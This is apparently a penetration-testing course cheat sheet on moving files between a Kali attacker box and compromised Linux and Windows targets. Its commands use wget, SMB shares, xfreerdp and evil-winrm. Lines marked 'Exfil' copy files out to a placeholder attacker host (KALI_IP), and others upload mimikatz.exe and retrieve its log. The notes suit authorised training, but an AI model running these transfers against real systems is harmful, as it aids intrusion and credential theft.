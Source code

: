 # ***Linux***
## scp download
```
scp kali@KALI_IP:/home/kali/pen200/resources/FILE .
```
## wget
```shell
wget http://KALI_IP/linux/FILE -O outfile
wget -r -np http://KALI_IP/linux/
```

# ***Windows Target***
## xfreerdp
```shell
# 1 KALI
xfreerdp /u:username /p:password /v:target_ip /drive:smb,$PWD +clipboard +smart-sizing 


# Upload
# copy a file to where xfreerdp is running then
cp \\tsclient\smb\FILE FILE

# Exfil
cp FILE \\tsclient\smb\.


# For GUI: Go to NETWORK -> TSCLIENT and the share will be there
```
## impacket-smbserver
``` shell
# 1 KALI
impacket-smbserver smb . -smb2support [ -username user -password pass ]


# 2 Target
net use z: \\KALI_IP\smb [ /user:user pass ]

# FROM TARGET
# Download to TARGET
cp z:\FILE FILE

# Upload to KALO
cp FILE z:\.


# 3 Delete mapping after user
net use z: /delete
```
## impacket-psexec/wmiexec
```shell
# MUST USE C:\Windows path
lput mimikatz.exe # Upload (to C:\Windows\)
lget mimikatz.log # Exfil (from C:\Windows\)
```
## evil-winrm
```shell
# Upload
upload mimikatz.exe C:\windows\tasks\mimikatz.exe


# Exfil
download mimikatz.log /home/kali/Documents/pen-200`
```
## winhttpserver.exe
```shell
# 1 TARGET
.\winhttpserver.exe -i -p PORT folder_name

# 2 KALI
# Access through Firefox

# https://github.com/TheWaWaR/simple-http-server
```
